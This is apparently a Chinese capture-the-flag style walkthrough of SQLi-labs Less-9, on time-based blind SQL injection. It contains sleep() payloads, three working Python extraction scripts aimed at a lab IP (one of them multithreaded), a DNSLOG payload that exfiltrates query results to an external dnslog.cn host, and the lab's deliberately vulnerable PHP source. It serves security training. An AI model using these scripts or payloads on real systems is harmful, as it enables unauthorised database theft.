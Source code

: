 # Less-9 **GET Blind- Time based- Single Quotes- String**
TAG：基于时间的注入、GET型注入、字符型注入、DNSLOG注入

## 漏洞利用  
![less9_1](images/Less9_1.png)
根据less名提示，这是基于时间的注入  
简单测试发现，无论输入什么都会出现正确提示
![less9_2](images/Less9_3.png)
就算输入一定会返回错误的语句也没有任何改变  
![less9_3](images/Less9_2.png)
这是就要考虑基于时间的注入了  
payload: ```?id=1' and if(length(database())=8,sleep(5),0) --+```   
这里会发现注入后网页的加载了一会，如果  
payload:```?id=1' and if(length(database())=7,sleep(5),0) --+```  
就会很快加载完成，说明数据库名长度为8  
这就是基于时间注入的简单利用  
现在可以编写脚本来进行基于时间的注入了  
获取数据库名长度的脚本：
```
import requests
url = "http://192.168.232.146/Less-9/?id=1' and if(length(database())={_},sleep(5),0) --+"
#注意一下这里使用>去作为判断条件

flag =8

for  i  in range(1,15):  #循环次数根据所探测数据
    payload = url.format(_=i)
    html = requests.get(payload)
    time = html.elapsed.total_seconds() #获取响应时间
    print(payload)
    if time >= 5:
        print(flag)
        break;
```

探测数据库名的脚本：
```
import requests
url = "http://192.168.232.146/Less-9/?id=1' and if(ascii(substr((select database()),{_},1))>{__},sleep(5),0) --+"
#注意一下这里使用>去作为判断条件

flag =''

for  i  in range(1,15):  #循环次数根据所探测数据
    min = 65
    max = 122
    while abs(max - min) > 1:
        mid = (max + min)//2
        payload = url.format(_=i,__=mid)
        html = requests.get(payload)
        time = html.elapsed.total_seconds() #获取响应时间
        print(payload)
        if time >= 5:
            min = mid
        else:
            max = mid

    flag += chr(max)
    print(flag)
```
这个脚本探测了数据库名，但是花费时间较多  
我们可以考虑用多线程脚本来进行探测
```
import requests
import threading
url = "http://192.168.232.146/Less-9/?id=1' and if(ascii(substr((select database()),{_},1))>{__},sleep(5),0) --+"
#注意一下这里使用>去作为判断条件


class TheThread(threading.Thread):
    def __init__(self,func,args=()):
        super(TheThread,self).__init__()
        self.func = func
        self.args = args
    def run(self):
        self.result = self.func(self.args)
    def get_result(self):
        try:
            return self.result
        except Exception:
            return None

def payload(i):
    min = 65
    max = 122
    while abs(max - min) > 1:
        mid = (max + min)//2
        payload = url.format(_=i,__=mid)
        html = requests.get(payload)
        time = html.elapsed.total_seconds() #获取响应时间
        print(payload)
        if time >=5:
            min = mid
        else:
            max = mid
    return chr(max)
li = []

def main():
    flag = ''
    for i in range(1, 9):  # 循环次数根据所探测数据
        t = TheThread(payload,args=i)
        li.append(t)
        t.start()
    for t in li:
        t.join()
        flag += t.get_result()
        print(flag)
if __name__ == '__main__':
    main()
```
但是基于时间的注入会受到网络状态的影响，在网络环境不佳的情况下很难获得正确的数据，需要多次测试来获得正确数据，并且耗时非常的长  

可以使用DNSLOG注入来进行基于时间注入的代替  
DOSLOG原理：
![less9_3](images/Less9_4.jpg)
示例payload:  
```?id=1' and if((select load_file(concat('\\\\',(payload),'.xxxxxx.dnslog.cn\\abc'))),1,1)--+```   


## 源码分析  
### less9源码： 
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-9 Blind- Time based- Single Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-9.jpg" /></center>
</body>
</html>

``` 

### 漏洞点分析：  
从此less的代码来看，并不存在查询结果与报错信息的输出，也不会在查询后对查询结果的正确与否进行显示，但是缺失相应的过滤措施导致了基于时间的注入与DNSLOG注入  
